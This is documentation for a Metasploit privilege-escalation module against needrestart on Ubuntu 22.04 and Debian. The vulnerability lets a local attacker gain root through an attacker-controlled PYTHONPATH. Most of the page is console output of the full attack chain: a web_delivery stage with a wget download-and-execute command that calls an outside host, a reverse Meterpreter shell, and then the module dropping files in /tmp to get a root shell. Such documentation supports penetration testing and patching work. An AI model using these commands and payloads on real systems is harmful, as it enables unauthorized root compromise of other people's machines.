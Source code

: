 ## Vulnerable Application

Local attackers can execute arbitrary code as root by
tricking needrestart into running the Python interpreter with an
attacker-controlled PYTHONPATH environment variable.

Verified against Ubuntu 22.04 with needrestart 3.5-5ubuntu2.1

### Debian 

Install: `apt-get install needrestart=3.6-4+deb12u1`

Binary location: `/usr/sbin/needrestart`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get an initial shell
4. Do: `use exploit/linux/local/ubuntu_needrestart_lpe`
5. Do: `set lhost <ip>`
6. Do: `set lport <port>`
7. Do: `set session <session>`
8. Do: `run`
9. You should get a root shell.

## Options

## Scenarios

### Ubuntu 22.04 with needrestart 3.5-5ubuntu2.1

Gain initial shell

```
msf6 > use exploit/multi/script/web_delivery
998
run[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set target 7
target => 7
msf6 exploit(multi/script/web_delivery) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(multi/script/web_delivery) > set lport 4998
lport => 4998
msf6 exploit(multi/script/web_delivery) > set srvport 8998
srvport => 8998
msf6 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/script/web_delivery) > 
[*] Started reverse TCP handler on 1.1.1.1:4998 
[*] Using URL: http://1.1.1.1:8998/dKtdkMS
[*] Server started.
[*] Run the following command on the target machine:
wget -qO Ejq8lHli --no-check-certificate http://1.1.1.1:8998/dKtdkMS; chmod +x Ejq8lHli; ./Ejq8lHli& disown
[*] 2.2.2.2   web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4998 -> 2.2.2.2:52004) at 2024-11-22 12:07:55 -0500

msf6 exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: h00die
meterpreter > background
[*] Backgrounding session 1...
```

Priv Esc

```
msf6 exploit(multi/script/web_delivery) > use exploit/linux/local/ubuntu_needrestart_lpe
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set lport 4977
lport => 4977
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set session 1
session => 1
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > set verbose true
verbose => true
msf6 exploit(linux/local/ubuntu_needrestart_lpe) > run

[*] Started reverse TCP handler on 1.1.1.1:4977 
[*] Running automatic check ("set AutoCheck false" to disable)

[+] The target appears to be vulnerable. Vulnerable needrestart version 3.5-5ubuntu2.1 detected on Ubuntu 22.04
[*] Writing '/tmp/.1K8Hy2tOtq' (250 bytes) ...
[*] Uploading payload: /tmp/.1K8Hy2tOtq
[*] Creating directory /tmp/importlib
[*] /tmp/importlib created
[*] Uploading c_stub: /tmp/importlib/__init__.so
[*] Uploading py_script: /tmp/.FzzlJ
[*] Launching exploit, and waiting for needrestart to run...
```

On the remote Ubuntu box run `sudo needrestart`

```
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] chown: changing ownership of '/tmp/.1K8Hy2tOtq': Operation not permitted
[*] Error processing line 1 of /usr/lib/python3/dist-packages/zope.interface-5.4.0-nspkg.pth:
[*] 
[*]   Traceback (most recent call last):
[*]     File "/usr/lib/python3.10/site.py", line 192, in addpackage
[*]       exec(line)
[*]     File "<string>", line 1, in <module>
[*]   ImportError: dynamic module does not define module export function (PyInit_importlib)
[*] 
[*] Remainder of file ignored
[*] #########################
[*] 
[*] Dont mind the error message above
[*] 
[*] Waiting for needrestart to run...
[*] Payload owned by: root
[+] Deleted /tmp/.1K8Hy2tOtq
[+] Deleted /tmp/.FzzlJ
[+] Deleted /tmp/importlib
[*] Meterpreter session 2 opened (1.1.1.1:4977 -> 2.2.2.2:57644) at 2024-11-22 12:08:28 -0500

meterpreter > 
meterpreter > getuid
Server username: root
```
